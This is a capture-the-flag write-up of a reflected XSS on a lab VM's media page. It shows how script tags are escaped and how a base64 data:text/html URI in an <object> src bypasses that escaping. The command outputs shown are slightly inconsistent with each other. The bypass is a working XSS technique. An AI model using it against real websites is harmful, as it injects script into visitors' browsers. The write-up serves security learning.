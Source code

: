 # NSA page

__http://192.168.56.101/index.php?page=media&src=nsa__

## Description
We see eagle on the page. However if we change nsa in the end of the url we get the following.

```
http://192.168.56.101/index.php?page=media&src=blabla
```
we get no found.
The tag ```src``` is the attribute of ```<object>```
For example let's link to the picture.
```http://[192.168.56.101](http://192.168.56.101)/?page=media&src=/images/42.jpeg```
We see that the javascript works incorrect.
For page ```curl -s '192.168.56.101/?page=media&src=<script>alert("Hello")</script>' | grep 'object'```
We see page source ```<table style="margin-top:-68px;"><center><h2 style="margin-top:50px;"></h2><br/><img src="images/WrongAnswer.gif" alt=""></center> <tr style="background-color:transparent;border:none;"><td style="vertical-align:middle;"><object data="&lt;script&gt;alert(1)&lt;/script&gt;"></object></td></tr></table></div>```

## Form Outputs
So the page must use htmlspecialchars() or htmlentities()
It is possible to encode a JavaScript alert using base64 and include it in a data URI scheme. The data URI scheme allows for embedding data directly into a web page, without the need for a separate file. The format for this scheme includes specifying the media type (in this case, text/javascript) and indicating that the data is encoded in base64.

```
data:[<media type>][;base64],<data>
```
We get the following rows
```
echo -n '<script>alert("Hello")</script>' | base64           
```
The output is ```PHNjcmlwdD5hbGVydCgiSGVsbG8hIik8L3NjcmlwdD4=```

## Flag
So try to input the request to the browser
```
http://192.168.56.101/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8hIik8L3NjcmlwdD4=


```
And we get the next flag.

## Safety
Developers should follow secure coding practices and regularly test their applications for vulnerabilities, while users should be cautious when visiting unfamiliar websites and ensure that their browsers and operating systems are up to date with the latest security patches. Proper input validation and output encoding should also be implemented to prevent attackers from injecting malicious code into the application and compromising user data or the entire system.